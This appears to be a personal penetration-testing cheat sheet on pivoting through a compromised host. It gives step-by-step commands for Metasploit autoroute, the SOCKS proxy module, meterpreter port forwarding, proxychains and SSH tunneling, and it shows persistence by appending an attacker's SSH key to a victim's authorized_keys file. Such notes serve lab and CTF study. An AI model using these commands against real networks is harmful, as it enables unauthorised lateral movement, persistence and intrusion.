  <h2> Proxying </h2> <br>
 
  If you have a MSFCONSOLE shell on a machine (generate payload via msfvenom if needed and run and set multi/handler on msfconsole <br>
  background session -- background <br>
  use post/multi/manage/autoroute <br>
  set SESSION 1 (change if more than 1 session) <br>
  set SUBNET 10.200.3.0 (change to submet needed) <br>
  exploit <br>
  msfconsole<br>
pivoting, check ifconfig when you have a shell on the machine if you have a meterpreter shell, are there multiple nics?<br>
if yes, use autoroute<br>
background session -- background<br>
use post/multi/manage/autoroute<br>
set SESSION 1 (change if more than 1 session)<br>
set SUBNET 10.200.3.0 (change to submet needed)<br>
exploit<br>
if that doesnt work make sure your back in your session and run (change IPs) -- meterpreter > run autoroute -s 192.181.243.1/24 <br>
now you can use further auxiliary commands against the machine pivoting towards<br>
has nmap command which can be used with script comnmand --script(useful for pivoting)<br>
  background <br>
  for portscan - use auxiliary/scanner/portscan/tcp <br>
  set options and set everything <br>
  run <br>
  Identify ports of interest, now need to configure port forward. <br>
  access the session -- sessions -i NUMBER <br>
  ensure meterpreter shell and type -- portfwd add -l (PORT TO FORWARD, e.g. 555) -p (PORT ATTACKING) -r victimIP <br>
  background session <br>
  Now perform nmap -sV -sC scan on ported for e.g. -p 555 localhost still in msfconsole console
  Once found an exploit for version type -- search SERVICE and use whatever exploit <br>
  set IP to actual machines ip 
  exploit 
  
  
  <h2> Proxychains </h2>
  <br>
   If you have a MSFCONSOLE shell on a machine (generate payload via msfvenom if needed and run and set multi/handler on msfconsole <br>
  background session -- background <br>
  use post/multi/manage/autoroute <br>
  set SESSION 1 (change if more than 1 session) <br>
  set SUBNET 10.200.3.0 (change to submet needed) <br>
  exploit <br>
  Now setup proxy <br>
 use auxiliary/server/socks_proxy <br>
 set VERSION 5 <br>
  type -- run <br>
 edit proxychains to socks5 and same port as metasploit using localhost 127.0.0.1 (/etc/proxychains.conf) <br>
 type --- proxychains nmap -T4 IP/CIDR and look for "OK" <br>
 every command is the same just add proxychains before
  
  
<h2> SSH Tunneling </h2> <br>
If you manage to get into a box via SSH or have comprimised a box and are able to ssh to the box <b>(if you have a shell as a user you can generate a new public key on my own kali machine -- ssh-keygen give it a name and a passphrase, then add this to the users ssh key file echo "your-ssh-public-key-contents" >> /home/apaar/.ssh/authorized_keys),</b> you can check what local ports are running and then use SSH tunneling to access these from your attack machine <br>
when on the comprimised host (if linux) type -- ss -tulpn (take a look at ports running and the port number) <br>
if port 10000 is running and of interest youd type on your local machine ssh -L 10000:localhost:10000 <username>@<ip>  (username of victim machine and ip) <br>
 then browse to port by browser -- localhost:10000 <br>
